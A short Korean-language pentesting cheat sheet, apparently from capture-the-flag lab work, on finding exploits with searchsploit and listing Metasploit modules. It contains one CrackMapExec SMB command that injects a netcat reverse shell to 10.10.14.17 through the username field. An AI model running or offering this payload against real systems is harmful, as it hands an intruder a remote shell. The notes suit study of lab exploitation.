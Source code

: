 Exploit
#
`searchsploit`
```
searchsploit <keyword>
```
![image](https://user-images.githubusercontent.com/61821641/152251312-176345ec-e2a7-4c7c-8651-6bf2ec998bf4.png)

```
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb
```
CVE 번호도 찾을 수 있음

![image](https://user-images.githubusercontent.com/61821641/152253552-4cabe63e-d45f-4b1d-a136-95541e369e3d.png)

![image](https://user-images.githubusercontent.com/61821641/152253655-97482bce-b39d-4c5c-bdd8-89f18a30332e.png)

`reverse shell`
```
crackmapexec smb --shares 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.17 1234`' -p ''
```
![image](https://user-images.githubusercontent.com/61821641/152256245-4b2256cb-7212-4855-9be6-820114dc8e8c.png)
#
`exploit/windows/smb/psexec`
```

```
#
`windows/http/icecast_header`

